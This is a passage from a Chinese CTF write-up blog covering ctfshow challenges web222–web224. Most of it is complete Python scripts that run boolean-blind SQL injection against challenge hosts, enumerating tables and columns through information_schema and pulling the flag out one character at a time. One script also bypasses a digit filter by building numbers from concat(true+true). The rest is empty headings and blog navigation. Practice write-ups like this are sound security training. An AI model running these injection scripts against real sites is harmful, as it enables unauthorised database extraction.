<span class="keyword">if</span> flag == temp:</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">f&#x27;flag is : <span class="subst">&#123;flag&#125;</span>&#x27;</span>)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">return</span> flag</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;-0123456789abdectfshowgijklmnpqruvxyz&#125;&#123;,_&quot;</span></span><br><span class="line">    flagStrDict3 = <span class="string">&quot;id,flagah,infoctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    flagStrDict4 = <span class="string">&quot;id,flagno_0123456789bcehjkmpqrstuvwxyz&quot;</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web222</span>():</span><br><span class="line">        url = <span class="string">&quot;http://1941d958-1f41-4146-aa5f-dc8a17137650.challenge.ctf.show&quot;</span></span><br><span class="line">        url = url[:-<span class="number">1</span>] <span class="keyword">if</span> url[-<span class="number">1</span>] == <span class="string">&#x27;/&#x27;</span> <span class="keyword">else</span> url</span><br><span class="line">        payload1 = <span class="string">&quot;select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())&quot;</span></span><br><span class="line">        payload2 = <span class="string">&quot;select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flaga&#x27;)&quot;</span></span><br><span class="line">        payload3 = <span class="string">&quot;select flagaabc from ctfshow_flaga&quot;</span></span><br><span class="line">        <span class="comment"># testFunc(urls=url)</span></span><br><span class="line"></span><br><span class="line">        <span class="comment"># ctfshow_flaga,ctfshow_user</span></span><br><span class="line">        <span class="comment"># getDate(url,payload=&quot;/api/?u=if(mid((&quot;+payload1+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,username)&quot;,strDict=flagStrDict1)</span></span><br><span class="line">        <span class="comment"># id,flagaabc,info</span></span><br><span class="line">        <span class="comment"># getDate(url,payload=&quot;/api/?u=if(mid((&quot;+payload2+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,username)&quot;,strDict=flagStrDict4)</span></span><br><span class="line">        <span class="comment">#flag</span></span><br><span class="line">        getDate(url,payload=<span class="string">&quot;/api/?u=if(mid((&quot;</span>+payload3+<span class="string">&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,username)&quot;</span>,strDict=flagStrDict2)</span><br><span class="line"></span><br><span class="line">    web222()</span><br><span class="line"></span><br></pre></td></tr></table></figure>


<h1 id="web223"><a href="#web223" class="headerlink" title="web223"></a>web223</h1><h2 id="原始信息-131"><a href="#原始信息-131" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//分页查询</span></span><br><span class="line"><span class="variable">$sql</span> = select * <span class="keyword">from</span> ctfshow_user group by <span class="variable">$username</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//<span class="doctag">TODO:</span>很安全，不需要过滤</span></span><br><span class="line"><span class="comment">//用户名不能是数字</span></span><br></pre></td></tr></table></figure>

<h2 id="解题-126"><a href="#解题-126" class="headerlink" title="解题"></a>解题</h2><p>具体来讲，过滤了数字，和纯加号，绕过的办法之前遇到过，是：<code>concat(true%2btrue)=&gt;concat(true+true)=&gt;2</code> 。</p>
<p>下面是实现的脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,time</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">miniTransition</span>(<span class="params">strs</span>):</span><br><span class="line">    <span class="keyword">try</span>:</span><br><span class="line">        publicStr = <span class="string">&#x27;concat(&#x27;</span> + (<span class="string">&#x27;&#x27;</span>.join(<span class="string">&#x27;true%2b&#x27;</span> <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="built_in">int</span>(strs))))[:-<span class="number">3</span>] + <span class="string">&#x27;)&#x27;</span></span><br><span class="line">    <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">        publicStr = <span class="string">f&quot;&#x27;<span class="subst">&#123;strs&#125;</span>&#x27;&quot;</span></span><br><span class="line">    <span class="keyword">return</span> publicStr</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">miniTransition2</span>(<span class="params">strs</span>):</span><br><span class="line">    publicStr = <span class="string">&#x27;&#x27;</span></span><br><span class="line">    <span class="keyword">try</span>:</span><br><span class="line">        <span class="keyword">if</span> <span class="built_in">int</span>(strs) <span class="keyword">or</span> <span class="built_in">int</span>(strs) == <span class="number">0</span>:</span><br><span class="line">            publicStr = <span class="string">&#x27;char(concat(&#x27;</span> + (<span class="string">&#x27;&#x27;</span>.join(<span class="string">&#x27;true%2b&#x27;</span> <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="built_in">ord</span>(strs))))[:-<span class="number">3</span>] + <span class="string">&#x27;))&#x27;</span></span><br><span class="line">        <span class="keyword">else</span>:</span><br><span class="line">            publicStr = <span class="string">f&quot;&#x27;<span class="subst">&#123;strs&#125;</span>&#x27;&quot;</span></span><br><span class="line">    <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">        publicStr = <span class="string">f&quot;&#x27;<span class="subst">&#123;strs&#125;</span>&#x27;&quot;</span></span><br><span class="line">    <span class="keyword">return</span> publicStr</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">getDate2</span>(<span class="params">url,payload,strDict,start=<span class="number">1</span>,end=<span class="number">50</span>,flag=<span class="string">&#x27;&#x27;</span></span>):</span><br><span class="line"></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded&quot;</span></span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        temp = flag</span><br><span class="line">        importNumbers = <span class="number">4</span></span><br><span class="line"></span><br><span class="line">        <span class="keyword">for</span> j <span class="keyword">in</span> strDict:</span><br><span class="line">            p = payload.<span class="built_in">format</span>(miniTransition(i), miniTransition2(j))</span><br><span class="line">            t = time.time()</span><br><span class="line">            r = requests.get(url + p, headers=headers)</span><br><span class="line">            tEnd = time.time() - t</span><br><span class="line">            text = r.text.encode(<span class="string">&#x27;gbk&#x27;</span>).decode(<span class="string">&#x27;unicode_escape&#x27;</span>)</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">f&#x27;[<span class="subst">&#123;tEnd:<span class="number">.3</span>f&#125;</span>] payload: <span class="subst">&#123;p&#125;</span>&#x27;</span>)</span><br><span class="line">            <span class="comment"># print(text)</span></span><br><span class="line">            <span class="comment"># print(f&#x27;And the repose of len: &#123;len(text)&#125;&#x27;)</span></span><br><span class="line">            <span class="comment"># print(&#x27;-*- &#x27; * 12)</span></span><br><span class="line">            <span class="keyword">if</span> <span class="built_in">len</span>(text) &lt;=<span class="number">91</span> <span class="keyword">and</span> <span class="built_in">bool</span>(text) <span class="keyword">and</span> <span class="string">&#x27;失败&#x27;</span> <span class="keyword">not</span> <span class="keyword">in</span> text:</span><br><span class="line">                flag += j</span><br><span class="line">                <span class="built_in">print</span>(<span class="built_in">bool</span>(text),flag)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line">        <span class="keyword">if</span> flag == temp:</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">f&#x27;flag is : <span class="subst">&#123;flag&#125;</span>&#x27;</span>)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">return</span> flag</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;-0123456789abdectfshowgijklmnpqruvxyz&#125;&#123;,_&quot;</span></span><br><span class="line">    flagStrDict3 = <span class="string">&quot;id,flagah,infoctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    flagStrDict4 = <span class="string">&quot;id,flagno_0123456789bcehjkmpqrstuvwxyz&quot;</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web223</span>():</span><br><span class="line">        url = <span class="string">&quot;http://16c8a3fc-a335-4d7c-bbf9-b6f4345c0b8c.challenge.ctf.show&quot;</span></span><br><span class="line">        <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">        if((payload),true,username)</span></span><br><span class="line"><span class="string">        &quot;&quot;&quot;</span></span><br><span class="line">        <span class="comment"># ctfshow_flagas,ctfshow_user</span></span><br><span class="line">        payload1 = <span class="string">&quot;select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())&quot;</span></span><br><span class="line">        <span class="comment"># id,flagasabc,info</span></span><br><span class="line">        payload2 = <span class="string">&quot;select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flagas&#x27;)&quot;</span></span><br><span class="line">        payload3 = <span class="string">&quot;select(flagasabc)from(ctfshow_flagas)&quot;</span></span><br><span class="line"></span><br><span class="line">        <span class="comment"># testFunc(urls=url)</span></span><br><span class="line">        <span class="comment"># getDate2(url,payload=&quot;/api/?u=if(mid((&quot;+payload1+&quot;),&#123;&#125;,true)=&#123;&#125;,true,username)&quot;,strDict=flagStrDict1)</span></span><br><span class="line">        <span class="comment"># getDate2(url,payload=&quot;/api/?u=if(mid((&quot;+payload2+&quot;),&#123;&#125;,true)=&#123;&#125;,true,username)&quot;,strDict=flagStrDict4)</span></span><br><span class="line">        getDate2(url,payload=<span class="string">&quot;/api/?u=if(mid((&quot;</span>+payload3+<span class="string">&quot;),&#123;&#125;,true)=&#123;&#125;,true,username)&quot;</span>,strDict=flagStrDict2,start=<span class="number">9</span>,flag=<span class="string">&#x27;ctfshow&#123;&#x27;</span>)</span><br><span class="line"></span><br><span class="line">    web223()</span><br><span class="line"></span><br><span class="line"></span><br></pre></td></tr></table></figure>


<h1 id="web224"><a href="#web224" class="headerlink" title="web224"></a>web224</h1><h2 id="原始信息-132"><a href="#原始信息-132" class="headerlink" title="原始信息"></a>原始信息</h2><p>登录窗口一个，需要自己去找重置密码的窗口才能登录，登录后有一个文件上传的接口文件上传的时候限制的很死，得用特殊的方法写入。</p>
<h2 id="解题-127"><a href="#解题-127" class="headerlink" title="解题"></a>解题</h2><h1 id="web225"><a href="#web225" class="headerlink" title="web225"></a>web225</h1><h1 id="web226"><a href="#web226" class="headerlink" title="web226"></a>web226</h1><h1 id="web227"><a href="#web227" class="headerlink" title="web227"></a>web227</h1><h1 id="web228"><a href="#web228" class="headerlink" title="web228"></a>web228</h1><h1 id="web229"><a href="#web229" class="headerlink" title="web229"></a>web229</h1><h1 id="web230"><a href="#web230" class="headerlink" title="web230"></a>web230</h1><h1 id="web231"><a href="#web231" class="headerlink" title="web231"></a>web231</h1><h1 id="web232"><a href="#web232" class="headerlink" title="web232"></a>web232</h1><h1 id="web233"><a href="#web233" class="headerlink" title="web233"></a>web233</h1><h1 id="web234"><a href="#web234" class="headerlink" title="web234"></a>web234</h1><h1 id="web235"><a href="#web235" class="headerlink" title="web235"></a>web235</h1><h1 id="web236"><a href="#web236" class="headerlink" title="web236"></a>web236</h1><h1 id="web237"><a href="#web237" class="headerlink" title="web237"></a>web237</h1><h1 id="web238"><a href="#web238" class="headerlink" title="web238"></a>web238</h1><h1 id="web239"><a href="#web239" class="headerlink" title="web239"></a>web239</h1><h1 id="web240"><a href="#web240" class="headerlink" title="web240"></a>web240</h1><h1 id="web241"><a href="#web241" class="headerlink" title="web241"></a>web241</h1><h1 id="web242"><a href="#web242" class="headerlink" title="web242"></a>web242</h1><h1 id="web243"><a href="#web243" class="headerlink" title="web243"></a>web243</h1><h1 id="web244"><a href="#web244" class="headerlink" title="web244"></a>web244</h1><h1 id="web245"><a href="#web245" class="headerlink" title="web245"></a>web245</h1><h1 id="web246"><a href="#web246" class="headerlink" title="web246"></a>web246</h1><h1 id="web247"><a href="#web247" class="headerlink" title="web247"></a>web247</h1><h1 id="web248"><a href="#web248" class="headerlink" title="web248"></a>web248</h1><h1 id="web249"><a href="#web249" class="headerlink" title="web249"></a>web249</h1><h1 id="web250"><a href="#web250" class="headerlink" title="web250"></a>web250</h1><h1 id="web251"><a href="#web251" class="headerlink" title="web251"></a>web251</h1><h1 id="web252"><a href="#web252" class="headerlink" title="web252"></a>web252</h1><h1 id="web253"><a href="#web253" class="headerlink" title="web253"></a>web253</h1><h1 id="web254"><a href="#web254" class="headerlink" title="web254"></a>web254</h1><h1 id="web255"><a href="#web255" class="headerlink" title="web255"></a>web255</h1><h1 id="web256"><a href="#web256" class="headerlink" title="web256"></a>web256</h1><h1 id="web257"><a href="#web257" class="headerlink" title="web257"></a>web257</h1><h1 id="web258"><a href="#web258" class="headerlink" title="web258"></a>web258</h1><h1 id="web259"><a href="#web259" class="headerlink" title="web259"></a>web259</h1></article><div class="post-copyright"><div class="post-copyright__author"><span class="post-copyright-meta">文章作者: </span><span class="post-copyright-info"><a href="http://example.com">矢幽武</a></span></div><div class="post-copyright__type"><span class="post-copyright-meta">文章链接: </span><span class="post-copyright-info"><a href="http://example.com/2023/08/13/CTF-web-033/">http://example.com/2023/08/13/CTF-web-033/</a></span></div><div class="post-copyright__notice"><span class="post-copyright-meta">版权声明: </span><span class="post-copyright-info">本博客所有文章除特别声明外，均采用 <a href="https://creativecommons.org/licenses/by-nc-sa/4.0/" target="_blank">CC BY-NC-SA 4.0</a> 许可协议。转载请注明来自 <a href="http://example.com" target="_blank">矢幽武博客</a>！</span></div></div><div class="tag_share"><div class="post-meta__tag-list"><a class="post-meta__tags" href="/tags/ctf/">ctf</a><a class="post-meta__tags" href="/tags/web/">web</a><a class="post-meta__tags" href="/tags/ctfshow/">ctfshow</a><a class="post-meta__tags" href="/tags/%E6%B1%87%E6%80%BB%E5%9E%8B-web/">汇总型-web</a></div><div class="post_share"><div class="social-share" data-image="/img/backgroude/b47.jpg" data-sites="wechat,weibo,qq"></div><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/butterfly-extsrc/sharejs/dist/css/share.min.css" media="print" onload="this.media='all'"><script src="https://cdn.jsdelivr.net/npm/butterfly-extsrc/sharejs/dist/js/social-share.min.js" defer></script></div></div><div class="post-reward"><div class="reward-button"><i class="fas fa-qrcode"></i> 打赏</div><div class="reward-main"><ul class="reward-all"><li class="reward-item"><a href="/img/wechat.jpg" target="_blank"></a><div class="post-qr-code-desc">wechat</div></li><li class="reward-item"><a href="/img/alipay.jpg" target="_blank"></a><div class="post-qr-code-desc">alipay</div></li></ul></div></div><nav class="pagination-post" id="pagination"><div class="prev-post pull-left"><a href="/2023/08/14/CTF-web-032/" title="CTF之Web习题--032--BUU练习题"><div class="pagination-info"><div class="label">上一篇</div><div class="prev_info">CTF之Web习题--032--BUU练习题</div></div></a></div><div class="next-post pull-right"><a href="/2023/08/11/CTF-web-030/" title="CTF之Web习题--php伪协议/SQL注入/反序列化/文件上传"><div class="pagination-info"><div class="label">下一篇</div><div class="next_info">CTF之Web习题--php伪协议/SQL注入/反序列化/文件上传</div></div></a></div></nav><div class="relatedPosts"><div class="headline"><i class="fas fa-thumbs-up fa-fw"></i><span>相关推荐</span></div><div class="relatedPosts-list"><div><a href="/2023/08/11/CTF-web-031/" title="CTF之Web习题-CTFShow-web32~web77"><div class="content is-center"><div class="date"><i class="far fa-calendar-alt fa-fw"></i> 2023-08-11</div><div class="title">CTF之Web习题-CTFShow-web32~web77</div></div></a></div><div><a href="/2023/10/09/CTF-web-034/" title="CTF之Web习题--032--BUU练习题"><div class="content is-center"><div class="date"><i class="far fa-calendar-alt fa-fw"></i> 2023-10-09</div><div class="title">CTF之Web习题--032--BUU练习题</div></div></a></div><div><a href="/2023/08/14/CTF-web-032/" title="CTF之Web习题--032--BUU练习题"><div class="content is-center"><div class="date"><i class="far fa-calendar-alt fa-fw"></i> 2023-08-14</div><div class="title">CTF之Web习题--032--BUU练习题</div></div></a></div><div><a href="/2023/08/08/CTF-web-029/" title="CTF之Web习题--爆破"><div class="content is-center"><div class="date"><i class="far fa-calendar-alt fa-fw"></i> 2023-08-08</div><div class="title">CTF之Web习题--爆破</div></div></a></div><div><a href="/2023/08/07/CTF-web-028/" title="CTF之Web习题--爆破"><div class="content is-center"><div class="date"><i class="far fa-calendar-alt fa-fw"></i> 2023-08-07</div><div class="title">CTF之Web习题--爆破</div></div></a></div><div><a href="/2023/08/05/CTF-web-027/" title="CTF之Web习题--找回密码&#x2F;js白盒审计"><div class="content is-center"><div class="date"><i class="far fa-calendar-alt fa-fw"></i> 2023-08-05</div><div class="title">CTF之Web习题--找回密码&#x2F;js白盒审计</div></div></a></div></div></div><hr/><div id="post-comment"><div class="comment-head"><div class="comment-headline"><i class="fas fa-comments fa-fw"></i><span> 评论</span></div></div><div class="comment-wrap"><div><div id="twikoo-wrap"></div></div></div></div></div><div class="aside-content" id="aside-content"><div class="card-widget card-info"><div class="is-center"><div class="avatar-img"></div><div class="author-info__name">矢幽武</div><div class="author-info__description">生灵造物，百力奋心<br>机遇自争，各凭本事<br>没有攻不破的系统 ，<br> 只有不努力的黑客</div></div><div class="card-info-data site-data is-center"><a href="/archives/"><div class="headline">文章</div><div class="length-num">200</div></a><a href="/tags/"><div class="headline">标签</div><div class="length-num">57</div></a><a href="/categories/"><div class="headline">分类</div><div class="length-num">30</div></a></div><a id="card-info-btn" target="_blank" rel="noopener" href="https://github.com/linxiao-wangchuan"><i class="fab fa-github"></i><span>Follow Me</span></a></div><div class="card-widget card-announcement"><div class="item-headline"><i class="fas fa-bullhorn fa-shake"></i><span>公告</span></div><div class="announcement_content"><b><font color="#e66b6d">威</font> <font color="#e66d98">武</font> <font color="#e66cc6">不</font> <font color="#cc6de6">屈</font> ,<font color="#9770e6">成</font> <font color="#6d93e6">为</font> <font color="#6fcde6">自</font> <font color="#72e6b6">己</font> <font color="#72e689">不败的</font> <font color="#99e670">信条</font>, <font color="#cde670">剑</font> <font color="#e6df72">走</font> <font color="#e6c073">偏</font> <font color="#e6a271">锋</font> ,<font color="#e6796f">缥</font> <font color="#e65454">缈</font> <font color="#e63333">孤</font> <font color="#e62c2c">鸿</font> <font color="#e60101">影</font> <font color="#e60101"> --孤志</font></b> <p align="center"></p> <p align="center" style="color:yellow;font-weight:800">微信号：无</p> <p align="center" style="color:red;font-weight:800">QQ：无</p> -------------------------------- <p style="color:#5a1216;font-weight:800">每日更新指南：</p> <p style="color:#4d1018;font-weight:800">刷题/记录总知识一般会沿用上次的文档</p> <p style="color:#f03752;font-weight:800">学习新知将新开文档</p></div></div><div class="xpand" style="height:10px;"></div><canvas class="illo" width="800" height="800" style="max-width: 200px; max-height: 200px; touch-action: none; width: 640px; height: 640px;"></canvas><script src="https://fastly.jsdelivr.net/gh/xiaopengand/blogCdn@latest/xzxr/twopeople1.js"></script><script src="https://fastly.jsdelivr.net/gh/xiaopengand/blogCdn@latest/xzxr/zdog.dist.js"></script><script id="rendered-js" src="https://fastly.jsdelivr.net/gh/xiaopengand/blogCdn@latest/xzxr/twopeople.js"></script><style>.card-widget.card-announcement {
margin: 0;
align-items: center;
justify-content: center;
text-align: center;
}
canvas {
display: block;
margin: 0 auto;
cursor: move;
}</style><div class="sticky_layout"><div class="card-widget" id="card-toc"><div class="item-headline"><i class="fas fa-stream"></i><span>目录</span><span class="toc-percentage"></span></div><div class="toc-content"><ol class="toc"><li class="toc-item toc-level-1"><a class="toc-link" href="#%E6%B1%87%E6%80%BB-%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB"><span class="toc-number">1.</span> <span class="toc-text">汇总-文件包含</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web78"><span class="toc-number">2.</span> <span class="toc-text">web78</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF"><span class="toc-number">2.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98"><span class="toc-number">2.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web79"><span class="toc-number">3.</span> <span class="toc-text">web79</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-1"><span class="toc-number">3.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-1"><span class="toc-number">3.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web80"><span class="toc-number">4.</span> <span class="toc-text">web80</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-2"><span class="toc-number">4.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-2"><span class="toc-number">4.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web81"><span class="toc-number">5.</span> <span class="toc-text">web81</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-3"><span class="toc-number">5.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E7%AD%94"><span class="toc-number">5.2.</span> <span class="toc-text">解答</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web82-86%E9%80%9A%E6%9D%80%E8%84%9A%E6%9C%AC"><span class="toc-number">6.</span> <span class="toc-text">web82~86通杀脚本</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web82-%E6%9D%A1%E4%BB%B6%E7%AB%9E%E4%BA%89"><span class="toc-number">7.</span> <span class="toc-text">web82(条件竞争)</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-4"><span class="toc-number">7.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E7%AD%94-1"><span class="toc-number">7.2.</span> <span class="toc-text">解答</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web83"><span class="toc-number">8.</span> <span class="toc-text">web83</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-5"><span class="toc-number">8.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-3"><span class="toc-number">8.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#PHP%E7%89%B9%E6%80%A7"><span class="toc-number">9.</span> <span class="toc-text">PHP特性</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web89"><span class="toc-number">10.</span> <span class="toc-text">web89</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-6"><span class="toc-number">10.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-4"><span class="toc-number">10.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web90"><span class="toc-number">11.</span> <span class="toc-text">web90</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-7"><span class="toc-number">11.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-5"><span class="toc-number">11.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web91"><span class="toc-number">12.</span> <span class="toc-text">web91</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-8"><span class="toc-number">12.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E7%AD%94-2"><span class="toc-number">12.2.</span> <span class="toc-text">解答</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web92"><span class="toc-number">13.</span> <span class="toc-text">web92</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-9"><span class="toc-number">13.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-6"><span class="toc-number">13.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web93"><span class="toc-number">14.</span> <span class="toc-text">web93</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-10"><span class="toc-number">14.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-7"><span class="toc-number">14.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web94"><span class="toc-number">15.</span> <span class="toc-text">web94</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-11"><span class="toc-number">15.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-8"><span class="toc-number">15.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web95"><span class="toc-number">16.</span> <span class="toc-text">web95</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-12"><span class="toc-number">16.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-9"><span class="toc-number">16.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web96"><span class="toc-number">17.</span> <span class="toc-text">web96</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-13"><span class="toc-number">17.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-10"><span class="toc-number">17.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web97"><span class="toc-number">18.</span> <span class="toc-text">web97</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-14"><span class="toc-number">18.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-11"><span class="toc-number">18.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web98"><span class="toc-number">19.</span> <span class="toc-text">web98</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-15"><span class="toc-number">19.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-12"><span class="toc-number">19.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web99-%E5%86%99%E5%85%A5%E5%9E%8B"><span class="toc-number">20.</span> <span class="toc-text">web99-写入型</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-16"><span class="toc-number">20.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-13"><span class="toc-number">20.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a 